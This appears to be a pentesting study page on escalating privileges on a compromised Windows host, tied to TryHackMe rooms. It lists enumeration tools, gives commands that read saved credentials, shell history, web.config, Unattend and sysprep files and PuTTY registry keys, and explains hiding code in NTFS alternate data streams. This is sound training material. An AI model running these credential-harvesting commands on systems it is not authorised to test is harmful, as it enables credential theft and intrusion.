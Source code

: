 # Compromise a Windows host

[![windowsfundamentals1xbx](../../_badges/thm/windowsfundamentals1xbx.svg)](https://tryhackme.com/room/windowsfundamentals1xbx)
[![windowsfundamentals2x0x](../../_badges/thm/windowsfundamentals2x0x.svg)](https://tryhackme.com/room/windowsfundamentals2x0x)
[![windowsfundamentals3xzx](../../_badges/thm/windowsfundamentals3xzx.svg)](https://tryhackme.com/room/windowsfundamentals3xzx)
[![windowsprivesc20](../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![windows_privilege_escalation](../../_badges/poat/windows_privilege_escalation.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

<div class="row row-cols-md-2"><div>

As there isn't much we can do as a regular user, we will try to elevate our level of privileges to Administrator, or system. You may have to do horizontal escalation first, i.g. moving to another account that has the same level of privilege, but may have different permissions.

* Misconfigurations <small>(user permissions...)</small>
* Missing security updates <small>(vulnerable OS, software...)</small>
* Find vulnerable scheduled tasks/services

The **goal is to pop out a powershell/cmd as root** (root shell), basically, the same as selecting "run as administrator" for one of them.

</div><div>

There are many **automated scripts** that will investigate usual places, services, files... that you may want to look at. You will still have to understand the output, dig into it...

* [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) (10.5k ⭐)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck) (1.8k ⭐)
* [PowerUp](https://github.com/HarmJ0y/PowerUp) (222⭐) that was deprecated over [PowerTools](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp) (1.8k ⭐) that was deprecated again over [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) (10k ⭐) which is now archived 😂. PowerUp from PowerSploit is still used.
</div></div>

<hr class="sep-both">

## Find credentials

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ List saved credentials by Windows

```bash
PS> cmdkey /list
# use to start a root shell
PS> runas /savecred /user:admin cmd.exe
```

* ➡️ See the shell history

```bash
PS> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
CMD> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* ➡️ Check the browser saved credentials
</div><div>

* ➡️ List credentials saved by applications

```bash
# Internet Information Services (IIS) = the default web server
PS> type C:\inetpub\wwwroot\web.config | findstr connectionString
PS> type C:\Windows\Microsoft.NET\Framework64\vX.X.XXXXX\Config\web.config | findstr connectionString
# Windows Deployment Services (credentials of the admin that
# deployed the OS image to several hosts, referred as "Unattended")
PS> type C:\Unattend.xml
PS> type C:\Windows\Panther\Unattend.xml
PS> type C:\Windows\Panther\Unattend\Unattend.xml
PS> type C:\Windows\system32\sysprep.inf
PS> type C:\Windows\system32\sysprep\sysprep.xml
# Putty
PS> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
</div></div>

<hr class="sep-both">

## Alternate Data Streams (ADS)

<div class="row row-cols-md-2"><div>

On a file system using NTFS, ADS allow files to have more than one stream (`flux`) of data. By default, every file has only one stream: **:$DATA**. You can inspect a file using

```powershell
> Get-Item -Path SomeFile -Stream *

PSPath        : Microsoft.PowerShell.Core\FileSystem::XXX\toto.pdf::$DATA
PSParentPath  : Microsoft.PowerShell.Core\FileSystem::XXX
PSChildName   : toto.pdf::$DATA
PSDrive       : XXX
PSProvider    : Microsoft.PowerShell.Core\FileSystem
PSIsContainer : False
FileName      : XXX\toto.pdf
Stream        : :$DATA
Length        : 0
```
</div><div>

They can be used by Windows to store data, such as identifier on a file telling the operating system that this file was download from the Internet.

Hackers can use that to store malicious code inside a file. They can execute it like this later, for instance using a legit/non-malicious application

```powershell
> $(Resolve-Path .\file.exe:stream)
```

More about it:

* [Introduction to Alternate Data Streams](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams)
</div></div>